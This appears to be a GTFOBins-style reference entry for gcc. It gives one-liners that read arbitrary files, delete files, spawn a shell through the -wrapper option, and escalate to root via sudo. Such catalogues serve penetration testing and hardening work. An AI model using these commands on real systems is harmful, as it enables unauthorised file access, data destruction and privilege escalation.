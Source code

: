 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
  file-write: # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        gcc -xc /dev/null -o $LFILE
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```

